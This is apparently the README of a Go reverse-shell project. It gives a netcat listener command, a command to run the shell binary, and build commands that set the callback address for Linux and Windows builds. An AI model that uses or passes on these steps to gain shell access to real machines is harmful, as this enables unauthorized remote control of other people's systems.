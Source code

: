 Reverse shell on Go

## How To

Listener side:
```
nc -lvp 9090
```

Connect to listener:
```
./bin/shell-linux
```

## Build

### For all OS

```
RS_ADDR=127.0.0.1:9090 make
```

### For specific OS

```
RS_ADDR=127.0.0.1:9090 make build-windows
```
